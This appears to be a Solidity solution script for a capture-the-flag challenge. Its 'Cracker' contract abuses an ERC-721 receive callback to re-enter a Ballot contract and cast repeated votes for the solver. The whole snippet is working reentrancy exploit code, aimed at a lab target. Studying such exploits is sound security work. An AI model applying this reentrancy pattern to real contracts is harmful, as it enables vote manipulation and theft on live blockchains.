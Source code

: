 ```solidity

    function run() public {
        vm.startBroadcast(solver.privateKey);

        new Cracker(address(chall), address(chall)).go();

        require(chall.isSolved(), "Not solved");
    }
}

contract Cracker is IERC721Receiver {
    Setup public chall;
    address solver_addr;
    uint256 remaining;

    constructor(address chall_addr, address solver_addr_arg) {
        chall = Setup(chall_addr);
        solver_addr = solver_addr_arg;
        remaining = 10;
    }

    function go() public {
        Ballot ballot = chall.ballot();
        chall.register();
        uint256 b = ballot.issueBallot();
        ballot.voteForCandidate(b, solver_addr);
    }

    event Debug(uint256 t);

    function onERC721Received(
        address operator,
        address from,
        uint256 tokenId,
        bytes calldata data
    ) external returns (bytes4) {
        if (remaining == 0) {
            return IERC721Receiver.onERC721Received.selector;
        }
        uint256 cur = 11 - remaining;
        remaining = remaining - 1;

        Ballot ballot = chall.ballot();
        ballot.issueBallot();
        ballot.voteForCandidate(cur, solver_addr);
        emit Debug(ballot.votes(solver_addr));

        return IERC721Receiver.onERC721Received.selector;
    }
}
```
